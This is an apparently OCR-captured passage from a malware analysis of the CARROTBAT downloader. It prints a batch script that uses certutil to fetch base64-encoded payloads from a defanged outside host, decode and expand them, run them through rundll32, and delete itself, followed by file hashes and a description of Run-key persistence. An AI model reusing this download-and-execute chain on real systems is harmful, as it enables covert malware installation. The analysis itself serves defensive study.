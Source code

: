 :EXIT
del /f /q setup.cab > nul
del /f /q %~dpnx0 > nul




12345678910111213141516171819202122232425262728293031323334353637383940

@echo off :if exist "%PROGRAMFILES(x86)%" (GOTO 64BITOS) ELSE (GOTO 32BITOS) :32BITOScertutil -urlcache -split -f http://s8877.1apps[.]com/vip/setup.txt > nulcertutil -decode -f setup.txt setup.cab > nuldel /f /q setup.txt > nulGOTO ISEXIST :64BITOS:certutil -urlcache -split -f http://s8877.1apps[.]com/vip/setup2.txt > nul:certutil -d^ecode -f setup2.txt setup.cab > nul:del /f /q setup2.txt > nul:GOTO ISEXIST :ISEXIST if exist "setup.cab" (GOTO EXECUTE) ELSE (GOTO EXIT) :EXECUTEver | findstr /i "10\." > nulIF %ERRORLEVEL% EQU 0 (GOTO WIN10) ELSE (GOTO OTHEROS) :WIN10expand %TEMP%\setup.cab -F:* %CD% > nul:if exist "%PROGRAMFILES(x86)%" (rundll32 %TEMP%\drv.dll EntryPoint) ELSE (rundll32 %TEMP%\drv.dll EntryPoint)%TEMP%\install.bat GOTO EXIT :OTHEROSwusa %TEMP%\setup.cab /quiet /extract:%TEMP% > nul%TEMP%\install.bat GOTO EXIT :EXITdel /f /q setup.cab > nuldel /f /q %~dpnx0 > nul





This script simply checks the operating system of the victim and downloads the respective payload again using the certutil executable. In this particular instance, the payload is encoded via base64, which certutil decodes. The payload in question is a CAB file that is then unpacked. Finally, the malware executes the extracted install.bat script before deleting the original files and exiting.

Figure 8 CARROTBAT downloading final payload via certutil
 
The downloaded CAB file has the following properties:



MD5
a943e196b83c4acd9c5ce13e4c43b4f4


SHA1
e66e416f300c7efb90c383a7630c9cfe901ff9fd


SHA256
cfe436c1f0ce5eb7ac61b32cd073cc4e4b21d5016ceef77575bef2c2783c2d62


File Type
Microsoft Cabinet archive data, 181248 bytes, 3 files



 
The following three files and their descriptions are dropped by this CAB file:
 



Filename
Purpose


Install.bat
Installation batch script responsible for copying the other files to C:\Users\Public\Downloads and setting the Run registry key to ensure persistence. It will also remove any original files before exiting.
